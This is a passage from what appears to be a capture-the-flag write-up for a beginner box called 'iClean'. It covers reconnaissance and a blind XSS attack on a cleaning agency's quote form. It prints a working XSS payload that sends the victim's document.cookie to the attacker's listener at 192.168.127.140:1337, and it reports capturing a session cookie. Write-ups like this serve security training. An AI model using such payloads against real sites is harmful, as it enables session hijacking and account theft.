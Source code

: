# iClean

## Introduction

I wanted to make this easy box in order to help beginners but there are some little tricks which I hope will help and interest intermediate players as well. This box is meant to introduce players to Blind XSS as well as filter bypasses (double underscore is filtered for the SSTI), and PDF modification with qpdf binary.
This box can also be helpful for the more experienced players as it re-enforces known techniques chained in a different way and showcases a PDF parser with a tricky syntax.

## Writeup

Running a standard nmap scan on all ports, we can find 2 exposed ports: 22, 80:

![image](https://user-images.githubusercontent.com/80063008/235944178-ac4c4d5b-6c06-48f5-a749-8d6faf3c0508.png)

Accessing the website hosted on port 80, we can see a cleaning agency's web page and a login option in the upper right corner but we don't have any credentials yet:

![image](https://user-images.githubusercontent.com/80063008/235944858-7353219b-b90b-44ac-8d9d-ee10ebcf33f0.png)

Scrolling further down, we see we have the option to request a quote:

![image](https://user-images.githubusercontent.com/80063008/235945269-040241ac-c778-47ce-ae30-3e67b18174e3.png)

We can choose between some services and enter our email address:

![image](https://user-images.githubusercontent.com/80063008/235945477-e5043389-14c1-4068-b8c0-c7ef86a0bf45.png)

After we hit submit, we see this thank you message.

![image](https://user-images.githubusercontent.com/80063008/235945657-b016e2eb-5fc0-42b6-b0ff-1604a1ba98cd.png)

This indicates to us that someone will be checking the message we just sent. Since we intercepted the request using Burpsuite, let's switch it to the Repeater tab. Here we see the original POST request:

![image](https://user-images.githubusercontent.com/80063008/235946030-bcb2e755-79aa-4a49-97f8-a5d6c51941ee.png)

Let's replace the service with a URL encoded XSS payload to try and grab any cookies that might be unprotected.

```html
<img src=1 onerror=this.src="http://192.168.127.140:1337/?"+document.cookie;>
```
![image](https://user-images.githubusercontent.com/80063008/235946327-0eb09cd0-72b0-424b-bd3e-4416470a47ae.png)

We listen for a couple of minutes on port 1337 and eventually we get a callback:

Someone accessed the message we sent and we have their session cookie:

